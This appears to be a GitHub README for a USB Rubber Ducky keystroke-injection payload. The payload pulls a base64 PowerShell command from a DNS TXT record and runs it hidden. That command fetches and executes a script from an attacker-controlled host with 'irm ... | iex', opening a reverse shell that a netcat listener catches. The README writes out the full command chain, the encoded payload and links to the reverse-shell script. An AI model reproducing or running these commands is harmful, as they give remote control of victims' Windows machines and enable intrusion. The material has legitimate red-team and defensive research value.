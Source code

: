 # DNS-TXT-CommandInjection
Ducky Script uses Resolve-DnsName to perform a DNS name query resolution for a domain hosting a malicious TXT record.
## Description
A usb rubber ducky payload that leverages DNS TXT records to perform command injection. Windows Powershell is the CLI used by the payload. Replace the DNS TXT record for your domain with the base64 encoded payload you have. See link below for an example of creating your DNS TXT record in AWS Route53 service.
## Requirements
A domain with the ability to manipulate the DNS TXT records.
Web Server hosting the payload. In this example, python3 http.server was used to host a reverseshell.
A listener for incoming connections like netcat.
Provide URL used for Example
DEFINE  #MY_TARGET_URL example.com

## Notes
No base64 can be used as an option by replacing "$a=",";powershell -e $a" with just "|iex" for the STRING payload below. Examples of the decoded command and encoded command are shown below to put into DNS TXT record.
Decoded: "irm http://MY_TARGET_URL/T1.txt | iex"
Encoded: "aQByAG0AIABoAHQAdABwADoALwAvAGUAeABhAG0AcABsAGUALgBjAG8AbQAvAFQAMQAuAHQAeAB0ACAAfAAgAGkAZQB4AA=="
powershellReverseShellOne-liner.ps1 is identical to T1.txt. (file name shortened due to character limitations)
## Windows Commands (used in payload)
### Execute DNS TXT Payload
```Powershell
powershell /w 1 $a=(resolve-dnsname MY_TARGET_URL TXT).strings;powershell -e $a
```
### Execute web hosted Powershell Reverseshell
```Powershell
irm http://MY_TARGET_URL/T1.txt | iex
```
### [Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
```Powershell
.\powershellReverseShellOne-liner.ps1
```
### Convert payload to base64
```Powershell
.\convertBase64.ps1
```
### Alternative to executing Powershell Script
```Powershell
gc -raw .\convertBase64.ps1 | iex
```
## Linux Commands
```bash
nc -lvnp 1337
```
### Links

[Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

[Convert to base64](https://github.com/nathansb2022/usbrubberducky-payloads/blob/master/payloads/library/execution/DNS-TXT-CommandInection/convertBase64.ps1)

[Create TXT record in AWS Route53](https://www.entrust.com/knowledgebase/ssl/how-to-create-a-txt-record-on-amazon-aws-route-53-for-entrust-email-validation-method)

